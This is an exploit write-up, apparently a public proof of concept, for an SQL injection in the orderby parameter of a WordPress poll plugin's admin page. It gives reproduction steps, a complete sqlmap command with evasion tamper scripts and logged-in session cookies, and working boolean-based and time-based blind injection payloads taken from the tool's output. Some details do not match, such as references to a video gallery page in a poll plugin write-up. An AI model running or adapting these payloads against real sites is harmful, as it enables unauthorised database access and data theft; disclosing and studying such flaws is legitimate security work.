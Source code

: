 ### Exploit Title: WordPress Poll Plugin SQL Injection 
### Date: 2024-07-06
### Exploit Author: tmrswrr
### Category : Webapps
### Vendor Homepage: https://total-soft.com/wp-poll/
### Version 2.3.6

## Steps to Reproduce:

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `TS Poll` > `Create Pool` > `Use Theme` and save it.
   - URL: `https://localhost/wordpress/wp-admin/admin.php?page=ts-poll-builder&tsp-id=1`

2. After saving, navigate back to `TS Video Gallery` and click the title:
   - URL: `https://localhost/wordpress/wp-admin/admin.php?page=ts-poll&orderby=Question_Title&order=desc`

3. Search for the `orderby` parameter.

<img alt="Result" src="https://raw.github.com/capture0x/Poll-Plugin-SQL-Injection-/main/1.png">


## SQLMAP Command:

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=ts-poll&orderby=Question_Title&order=desc" \
--batch \
--dbms=mysql \
--thread=10 \
--no-cast \
--random-agent \
-v 3 \
--tamper="between,randomcase,space2comment" \
--level=5 \
--risk=3 \
-p orderby \
--cookie="wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720435164|r5jSRyl4XMzcZz3xllDos9veD7hga8U8qFIWPQHv5Kr|e111b736b22043864d0f8ea6da823ca00768a110af4da612c555add1979839d1; wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720435164|r5jSRyl4XMzcZz3xllDos9veD7hga8U8qFIWPQHv5Kr|173622110c7f3812695b26c96ba4905a7c760ac41e37645150dd4869ae884c4b; wordpress_test_cookie=WP Cookie check; wp-settings-time-1=1720266472"

---
Parameter: orderby (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: page=tsvg-admin&orderby=(SELECT (CASE WHEN (1078=1078) THEN 0x54535f56475f5469746c65 ELSE (SELECT 2977 UNION SELECT 8545) END))&order=desc
    Vector: (SELECT (CASE WHEN ([INFERENCE]) THEN [ORIGVALUE] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=tsvg-admin&orderby=TS_VG_Title AND (SELECT 6127 FROM (SELECT(SLEEP(5)))mIWx)&order=desc
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---
```

<img alt="Result" src="https://raw.github.com/capture0x/Poll-Plugin-SQL-Injection-/main/2.png">
